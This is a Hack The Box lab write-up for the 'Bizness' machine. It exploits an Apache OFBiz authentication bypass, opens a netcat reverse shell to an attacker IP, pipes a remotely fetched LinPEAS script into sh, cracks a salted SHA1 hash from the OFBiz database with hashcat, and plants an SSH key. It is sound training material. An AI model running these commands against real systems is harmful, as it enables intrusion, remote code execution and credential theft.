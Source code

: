 ```yaml
---
date: 2025-03-10
categories: [CTF, HTB]
title: "HTB - Bizness"
tags: ['hashcat', 'nmap', 'privilege escalation', 'python', 'rce', 'reverse shell']

description: "Bizness - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Bizness

NMAP

![image1](../resources/c4c5de538cd64b3980ef74d7ee07df54.png)

- Add **bizness.htb** to /etc/hosts

![image2](../resources/7263dd7c2c5e4f3ebcb3e0cb31d90656.png)


![image3](../resources/9a1adcfedd5e40d1b95f02d12edd408b.png)

- Directory bruteforce (recursive):
```bash
ffuf -u https://bizness.htb/FUZZ -recursion -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fw 1
```

![image4](../resources/708fc8bbb95b450ebd6d2a735a27ac06.png)

- Going to /webportal

![image5](../resources/b81db965335f4cc7a3930c89fbdf7363.png)

- Clicked on Login and used the credentials given but get this error:

![image6](../resources/fb7c0e582dff450b9ad782407ca13fbb.png)

- Go to <https://bizness.htb/myportal>

![image7](../resources/e361a49e029b4ec18f42066c9c3d6dee.png)

- I can register (**password123**)

![image8](../resources/00adee3881b04c7abcbc7d684ddf7c32.png)
- But can't log in

![image9](../resources/2580e329c5e248e8af9155102ffd736c.png)

- Looking back at the home page - at the bottom:

![image10](../resources/a64ce76f5034402cbb18e0b617b03157.png)

- Googling Apache OFBiz exploit - found:
[https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py](https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass/blob/master/exploit.py)

[https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66](https://medium.com/@maltamas/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-8ef010759d66)

- Trying the POC to see if it might be vulnerable:
[https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y](https://bizness.htb/webtools/control/ping?USERNAME&PASSWORD=test&requirePasswordChange=Y)


![image11](../resources/6636619b5fff49bd8ef8dd929fa25cdb.png)


![image12](../resources/6e7d84b355cd4ccca6c2c7d3c2d2dab3.png)

- And using the python tool:
```bash
git clone <https://github.com/jakabakos/Apache-OFBiz-Authentication-Bypass.git>

python3 exploit.py --url <https://bizness.htb>

```

![image13](../resources/68434c4ef4a44ce28b21db1bf021240f.png)

- We can also run a command with it - but the command output doesn't get returned:

![image14](../resources/69aa90309cfb464295aaf588e130c940.png)

- I set up a listener:
```bash
rlwrap -cAr nc -lvnp 8081

```
- I tried loads of reverse shell options but the only one that worked was:
**nc -e /bin/bash 10.10.14.18 8081**

```bash
python3 exploit.py --url <https://bizness.htb> --cmd "nc -e /bin/bash 10.10.14.18 8081"

```

![image15](../resources/49337ed38d6b4b7092516df8aace061f.png)

- Got a shell:

![image16](../resources/4aab46873a5a447b8dc58e1a88cec2ee.png)

- Upgrade shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null

stty raw -echo

fg

export TERM=xterm

stty cols 236 rows 59

PS1="\n\\\033\[1;34m\\\[\\(date +%H%M)\]\[\u@\h:\w\]\$\\\033\[0m\\ "

alias ls='ls --color=auto'

reset

clear
```

![image17](../resources/1e066e7572af4b488d8095ba17af0168.png)

- Upload LinPEAS:
```bash
curl <http://10.10.14.18:8082/linpeas.sh> \| sh

```

![image18](../resources/8b8ad23a85a245e3a083892b57ead443.png)

```bash
systemctl list-units --type=service --state=running

```

![image19](../resources/ad79a255a6aa4231af2ac46afd785fd5.png)

- Two things stand out:
Normally /opt is empty but in this case it has the directory **ofbiz**

And the service **ofbiz.service**

- Query the service
```bash
systemctl status ofbiz.service

```

![image20](../resources/3121db77ca6740a3ac8991f2b105a10b.png)

- Search for credentials within /opt/ofbiz:
```bash
grep --color=auto -irnw . -e "credentials" 2\>/dev/null

```

![image21](../resources/5852ca65a4d04c3abfcf186abc77783e.png)

```bash
cat /opt/ofbiz/build.gradle

```

![image22](../resources/a702843a884542fba394be3f4fb6966e.png)

```bash
cat /opt/ofbiz/framework/resources/templates/AdminUserLoginData.xml

```

![image23](../resources/ff3b667122034ea3826bfa41613ee3cb.png)

{SHA}47ca69ebb4bdc9ae0adec130880165d2cc05db1a

- We have a SHA1 hash but the hash is for the password ofbiz, that we found before and it doesn't work

- Try and find other hashes:
```bash
grep -E 'SHA' -rnw /opt/ofbiz

```

![image24](../resources/c1bad59dda8f4e5ebea9d450c90f7f74.png)

- More concise grep:
```bash
grep -E '\\SHA\\\[a-zA-Z0-9\]+\\\[a-zA-Z0-9\_-\]+' -rnw .

```
```bash
- cat /opt/ofbiz/runtime/data/derby/ofbiz/seg0/c54d0.dat
```

![image25](../resources/fc39e427c2ef41df8fe832816a98ad07.png)

- Found the salt: **d**


![image26](../resources/68f82947e00a436f986365c048ffaa90.png)

- First we need to convert hash to normal base64 encoding by adding padding from URL Safe
and then decode it to hex:

```python
import base64

base64_str = "uP0_QaVBpDWFeo8-dRzDqRwXQ2I"
base64_str_unsafe = base64_str.replace('-', '+').replace('_', '/')
base64_str_padded = base64_str_unsafe + '=' * ((4 - len(base64_str_unsafe) % 4) % 4)
decoded_bytes = base64.b64decode(base64_str_padded)
print(decoded_bytes.hex())

```

![image27](../resources/e5f95b894c744aebbca4a3ca0a525607.png)

- Now, apply mode 120 along with hash and salt format to crack:
```bash
hashcat -m 120 -a0 'b8fd3f41a541a435857a8f3e751cc3a91c174362:**d**' /usr/share/wordlists/rockyou.txt

```

![image28](../resources/1e13c4c2e2374769866c25380872e965.png)

- Root shell:

![image29](../resources/dc47da71fd44403e83862abd94683c49.png)

- Create SSH key to get better shell:
```bash
ssh-keygen -t rsa -b 4096

chmod 600 id_rsa
mkdir ~/.ssh

touch ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
echo "\<id_rsa.pub\>" \>\> ~/.ssh/authorized_keys
ssh ofbiz@10.129.18.39 -i id_rsa
```